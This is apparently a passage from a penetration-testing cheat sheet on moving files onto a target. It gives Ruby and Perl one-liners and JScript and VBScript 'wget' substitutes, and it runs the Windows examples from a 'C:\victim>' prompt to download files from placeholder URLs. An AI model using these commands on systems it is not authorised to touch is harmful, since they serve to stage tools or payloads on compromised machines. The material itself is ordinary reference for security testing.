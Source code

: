 ## Ruby 

```console
zero@pio$ ruby -e 'require "net/http"; File.write("<output file>", Net::HTTP.get(URI.parse("<target url file>")))'
```

## Perl 

```console
zero@pio$ perl -e 'use LWP::Simple; getstore("<target url file>", "<output file>");'
```

## JavaScript 

We can simulate a `wget` command in Windows with the following file:

```javascript
var WinHttpReq = new ActiveXObject("WinHttp.WinHttpRequest.5.1");
WinHttpReq.Open("GET", WScript.Arguments(0), /*async=*/false);
WinHttpReq.Send();
BinStream = new ActiveXObject("ADODB.Stream");
BinStream.Type = 1;
BinStream.Open();
BinStream.Write(WinHttpReq.ResponseBody);
BinStream.SaveToFile(WScript.Arguments(1));
```

And then:
```console
C:\victim> cscript.exe /nologo wget.js <target url file> <output file>
```

## VBScript

The same can be applied with VBScript (Microsoft Visual Basic Scripting Edition):
```
dim xHttp: Set xHttp = createobject("Microsoft.XMLHTTP")
dim bStrm: Set bStrm = createobject("Adodb.Stream")
xHttp.Open "GET", WScript.Arguments.Item(0), False
xHttp.Send

with bStrm
    .type = 1
    .open
    .write xHttp.responseBody
    .savetofile WScript.Arguments.Item(1), 2
end with
```

```console
C:\victim> cscript.exe /nologo wget.vbs <target url file> <output file>
```

---